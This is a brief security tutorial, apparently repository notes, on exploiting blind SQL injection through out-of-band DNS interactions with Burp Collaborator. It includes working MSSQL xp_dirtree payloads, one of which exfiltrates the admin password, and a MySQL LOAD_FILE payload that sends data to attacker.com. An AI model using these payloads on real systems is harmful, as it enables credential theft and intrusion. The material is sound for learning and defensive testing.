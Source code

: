 # Exploiting blind SQLi using out-of-band  (OAST) techniques
#### In the context of exploiting blind SQL injections using out-of-band (OAST) techniques, when an application performs SQL queries asynchronously, traditional methods may not be effective.
#### The application continues processing the user's request in the original thread while using another thread to execute a SQL query . 
#### Unlike typical SQLi scenarios, the application's response doesn't rely on data retrieval, database errors, or query execution time. However, exploiting this vulnerability is still possible by triggering out-of-band network interactions to a controlled system. This involves using injected conditions to infer information gradually or direct exfiltrating data through network interactions.
**NOTE**: **DNS** (domain name service) is often a preferred protocol for out-of-band interactions, as many production networks permit free egress of DNS queries due to their essential role in system operation.
#### The most user-friendly and reliable tool for utilizing out-of-band techniques is **Burp Collaborator**. It functions as a server, offering custom implementation of various network services, including DNS.
#### With Burp Collaborator it's possible to identify instances when network interactions happen due to sending specific payloads to a vulnerable application.
* **Example**: To trigger a DNS query, the techniques employed are dependent on the type of database in use. For instance, consider the following input on Microsoft SQL Server, which initiates a DNS lookup on a specified domain:
* `; exec master..xp_dirtree'//32rf2f2f829f29fh29f2hf29fh2ay.burpcollaborator.net/a'--`
* Ths input prompts the database to perform a DNS lookup for the domain:
* `32rf2f2f829f29fh29f2hf29fh2ay.burpcollaborator.net`
* Burp Collaborator can then generate a unique subdomain, and by polling the Collaborator server, we can confirm when DNS lookups occur.
* Having identified a method to trigger out-of-band interactions, they can then utilize this channel to exfiltrate data from the vulnerable application.
* **For example**: 
#### `'; declare @s varchar(1024);set @s=(SELECT password FROM users WHERE username='admin');exec('master..xp_dirtree"//'+@s'+.32rf2f2f829f29fh29f2hf29fh2ay.burpcollaborator.net/a"'--`
* This input retrieves the password for the Administrator user, appends a unique Collaborator subdomain, and initiates a DNS lookup.

#### Another Example:
```sql
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'));
```